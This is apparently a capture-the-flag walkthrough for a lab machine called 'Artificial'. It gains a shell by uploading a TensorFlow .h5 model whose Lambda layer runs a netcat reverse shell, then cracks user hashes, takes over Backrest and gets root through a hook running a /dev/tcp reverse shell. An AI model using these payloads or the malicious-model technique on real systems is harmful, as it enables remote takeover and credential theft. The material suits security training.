


Let's scan the machine:
```bash
sudo nmap -v -sC -sV 10.10.11.74 -oN nmap/initial
```


Port `80` is open. Let's go to the website:


Create an account and get to the `dashboard`:


First, get the [.h5 file](https://github.com/openPMD/openPMD-example-datasets/blob/draft/example-femm-thetaMode.h5) and upload it to the server. We receive the following request:
```Reauest
POST /upload_model HTTP/1.1
Host: artificial.htb
Content-Type: multipart/form-data; boundary=----geckoformboundary53018d29f39236987995fe51717513ef
Content-Length: 182326
Origin: http://artificial.htb
Referer: http://artificial.htb/dashboard
Cookie: session=eyJ1c2VyX2lkIjoxMiwidXNlcm5hbWUiOiJkZXgxZCJ9.aFglRg.4C17yoZPh3lf30ebY4B1UcWwSN8

------geckoformboundary53018d29f39236987995fe51717513ef
Content-Disposition: form-data; name="model_file"; filename="example-femm-thetaMode.h5"
Content-Type: application/mipc

<!DOCTYPE html>
<html lang="en"
data-color-mode="auto" data-light-theme="light" data-dark-theme="dark"
data-a11y-animated-images="system" data-a11y-link-underlines="true">
```
After that, it redirects you back to the same page and this file appears there, next to which there is a button `View Predictions`. When clicked, the following request is sent:
<div style="page-break-after: always;"></div>

```Reauest
GET /run_model/95b919d1-27d8-4cd0-b456-f3ca21e70d31 HTTP/1.1
Host: artificial.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://artificial.htb/dashboard
Cookie: session=eyJ1c2VyX2lkIjoxMiwidXNlcm5hbWUiOiJkZXgxZCJ9.aFglRg.4C17yoZPh3lf30ebY4B1UcWwSN8
```
Download `Dockerfile` and deploy him:
```bash
sudo docker build -t artificial-htb .
```
Let's run the container
```bash
sudo docker run -it --rm -v $(pwd):/mnt artificial-htb
```
Let's read the part of the [article](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model#getting-the-rce) that talks about doing `RCE` in `TensorFlow`.
**The key element here is the Lambda layer**, the other layers are just for show. However, in a real scenario, this malicious layer would probably be hidden among dozens of legitimate layers of the working model, so as not to arouse suspicion.
Let's write some code that will generate the `.h5` file we need with a reverse shell:
```Python
import tensorflow as tf

def exploit(x):
import os
os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.93 4444 >/tmp/f")
return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
The above script will create the `exploit.h5` file, which will execute the serialized exploit function and will create the file `/tmp/pwned`. **The exploit is triggered already when saving the model** (so you shouldn't write `rm -rf /` there, otherwise you can crash the whole system).
<div style="page-break-after: always;"></div>

> [!info] Note
> Instead of simple `sh | nc`, the chain `rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT >/tmp/f` is used, because the named FIFO pipe (`/tmp/f`) closes stdin and stdout-stderr in a circle. This creates a full-fledged two-way reverse-shell, which works even where the unsafe `-e` option has been removed from `nc`.

We execute this script inside the container. After that, the file `exploit.h5` is created, which we must send to the server:


Click `View Predictions`:


The API key was found in the `app.py` code:
```API-key
Sup3rS3cr3tKey4rtIfici4L
```


Let's see what users are in the system:


There is a user `gael`. Also in the `instance` directory there is `users.db`. Let's see what's inside:
```bash
sqlite3 users.db
```
```SQLite3
Enter ".help" for usage hints.
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170 f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|notthei0204|notthei020 4@gmail.com|f0f1f60430a59e920764a7b1be6041fc
7|test123@gmail.com|test123@gmail.com|9a93efa79aa9f5d35e14bc55a3e16dc4
8|n|n@n.com|7b8b965ad4bca0e41ab51de7b31363a1
9|te st|test@email.com|098f6bcd4621d373cade4e832627b4f6
10|dd|dd@gmail.com|827ccb0eea8a706c4c34a16891f84e7b
11|ddd|ddd@gmail.com|77963b7a931377ad4ab5ad6a9cd718aa
```
<div style="page-break-after: always;"></div>

Let's break the hash:
```bash
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5
```



Password:
```Password
mattp005numbertwo
```
Let's try to connect to user `gael`:


```flag
8b0ba3b136c04b28745971beb2348e76
```
Let's fix the terminal:
```bash
export PS1='\u@\h:\w\$ '
```


Let's see what services are running locally:
```bash
netstat -tulpn
```


There is an interesting port `9898`. Let's forward it to our host and go to the site:
```bash
ssh 9898:localhost:9898 gael@10.10.11.74
```


**Backrest** is a web-based backup solution built on top of **restic**. **Backrest** provides a web interface that wraps the `restic` CLI and simplifies creating repositories, viewing snapshots, and restoring files. In addition, **Backrest** can run in the background, automatically create snapshots on a specified schedule, and perform operations to maintain the "health" of repositories.
Using the capabilities of `restic`, **Backrest** gets a mature, fast, reliable, and secure backup system at its disposal, complementing it with an intuitive interface.
Let's see if there are any backups in the system:


Copy `backrest_backup.tar.gz` to the home directory and unpack it:
```bash
cp /var/backups/backrest_backup.tar.gz .
```
```bash
tar -xf backrest_backup.tar.gz
```
The following was found in the `.config/backrest/config.json` config:


```base64
JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP
```
`passwordBcrypt` is a bcrypt hash, but before writing it to JSON, it was **additionally Base64 encoded**. Decode it


```bcrypt
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
Now let's crack it:
```bash
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```


The final password for `Backrest`:
```Password
!@#$%^
```
Log in


The `backrest` service (the web-UI for restic) is usually launched as a **systemd-unit from root**, in order to have access to all the directories that are given to it for backup.
When we create a plan (Plan) or a repository (Repo), **Backrest** subsequently launches `restic` itself **and all the "hooks" specified in the plan on behalf of the same user under which the service runs — that is, root**.
In the web-interface, these hooks are configured in literally a couple of clicks: it is either `Success Hook` or `Error Hook` — a command string that Backrest passes directly to `/bin/sh -c '<string>'`.
In fact, this is a built-in RCE functionality. You just need to give it your command and make the plan execute.
Create a repository.


>[!info] Note
>To create a local repository, specify `local:/path` in `Repository URI`

Create a plan. In `Hook`, select `Command` and enter the reverse shell there. Select that this command is called upon any error. The error will be due to the fact that we specify a non-existent directory `/not/a/directory`
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.93/4444 0>&1'
```



We go to the plan and run the backup, having started listening to the port in advance:
```bash
sudo ncat -lvnp 4444
```


We got it flag
```flag
dc14188a0ff745ed57bcedd380bf2d63
```
